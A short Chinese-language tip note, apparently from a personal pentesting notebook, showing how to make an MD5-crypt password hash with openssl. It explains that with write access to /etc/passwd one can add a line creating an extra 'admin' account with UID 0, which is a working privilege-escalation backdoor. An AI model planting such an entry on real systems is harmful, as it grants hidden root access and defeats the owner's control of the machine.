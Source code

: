 ```yaml
---
tags:
  - 技巧
  - 加密
---
```

```bash
openssl passwd -1 -salt 123 admin
//-1为MD5加密算法，-salt指定盐值，后面为密码
```
当你有权限写入/etc/passwd文件时，可以使用这条命令构造符合格式的hash加密(密码)，加入的格式应该是:
```
admin:$1$123$Ok9FhQy4YioYZeBPwQgm3/:0:0:admin:/root:/bin/bash
```
